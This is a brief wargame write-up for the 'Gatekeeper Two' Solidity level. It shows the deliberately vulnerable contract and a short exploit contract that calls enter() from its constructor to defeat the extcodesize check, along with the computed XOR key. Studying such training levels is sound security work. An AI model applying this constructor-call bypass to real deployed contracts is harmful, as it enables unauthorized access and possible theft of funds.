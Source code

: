 # Level 14 - Gatekeeper Two

### Objective

The objective of this level is as follows:

1. Make it past the gatekeeper and register as an entrant to pass this level.

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### Solution

```
pragma solidity ^0.6.4;

contract passGate {
    constructor(address _addr) public {
        bytes8 key = bytes8( uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1) );
        _addr.call(abi.encodeWithSignature('enter(bytes8)', key));
    }
}
```

Done!
